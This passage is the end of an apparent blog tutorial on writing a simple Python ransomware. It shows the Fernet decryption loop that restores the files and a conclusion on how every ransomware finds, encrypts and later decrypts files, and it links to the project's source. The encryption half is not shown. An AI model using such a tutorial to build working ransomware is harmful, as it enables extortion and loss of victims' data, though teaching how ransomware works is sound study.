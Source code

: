 ```py

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_decrypted = Fernet(key).decrypt(content)

	with open(file, "wb") as f:
		f.write(content_decrypted)

print("Files decrypted!")
```

And after running this, we can read the content of our files.

![file1-decrypted](/img/file1-decrypted.png)

We can also see our image files.

![pic-decrypted](/img/pic-decrypted.png)

___

# The conclusion
So there we have it, an encryption and decryption program that makes up a ransomware. Of course, this is a very simple and rather harmless ransomware. In fact, if someone is a bit tech savvy, they won't have much trouble decrypting the files. 

But what's at this ransomware's core is also what's at any other ransomware's core, the ability to find and encrypt all the files on the computer and the ability to decrypt them later on.

This is the basic principle that every ransomware operates on.

> You can find the source code for this project [here](https://github.com/namberino/simple-ransomware).
